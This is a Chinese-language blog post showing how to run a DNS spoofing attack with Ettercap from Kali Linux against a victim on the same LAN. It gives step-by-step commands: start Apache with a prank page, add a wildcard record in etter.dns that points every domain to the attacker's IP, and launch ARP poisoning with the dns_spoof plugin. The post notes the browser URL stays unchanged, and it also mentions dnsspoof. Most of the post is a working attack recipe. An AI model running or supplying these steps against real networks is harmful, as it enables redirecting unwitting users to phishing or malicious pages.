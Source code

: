 ```yaml
---
layout: post
title: 演示DNS欺骗攻击
---
```


DNS欺骗攻击基于[中间人攻击](http://topspeedsnail.com/kali-linux-preform-man-in-middle-attack/)。攻击者更改受害者从DNS服务器查询的域名解析结果，给受害者发送恶意网页或钓鱼网页－浏览器依然显示正常的url。

本帖介绍怎么使用Ettercap施行DNS欺骗攻击，实现受害者访问任何网站都转向到攻击者指定的网站。

### 情形描述

* 同一局域网内
* 受害者IP：192.168.0.106
* 攻击者系统Kali Linux，IP地址：192.168.0.108

## 创建恶搞网站

在Kali Linux上创建恶搞网站。

**启动Apache：**

{% highlight shell %}
# service apache2 start
{% endhighlight %}

**创建恶搞网页：**

{% highlight shell %}
# vim /var/www/html/index.html
{% endhighlight %}

**写入内容：**

```
<h1>You Got Fucked!</h1>
```

你可以测试一下（http://192.168.0.108），看看Web是否可以正常提供服务。

## DNS欺骗攻击

编辑文件：

{% highlight shell %}
# vim /etc/ettercap/etter.dns
{% endhighlight %}

在文件中添加一行：

```
* A 192.168.0.108
```

所有域名查询都解析为Kali Linux的IP地址。

DNS欺骗／ARP欺骗：

{% highlight shell %}
# ettercap -i wlan0 -T -P dns_spoof -M arp /192.168.0.106///
{% endhighlight %}

![演示DNS欺骗攻击]({{ site.baseurl }}/images/2016/5/Screenshot from 2016-05-18 18-37-15.png)

## 测试

受害者访问网站：

![演示DNS欺骗攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-18 at 18.42.13.png)

注意：地址栏的URL并没有变

你也可以使用nslookup命令查询DNS解析结果：

```
nslookup www.baidu.com
```

***

Kali Linux中另一个执行这种攻击的工具：dnsspoof。

{% highlight shell %}
# man dnsspoof
{% endhighlight %}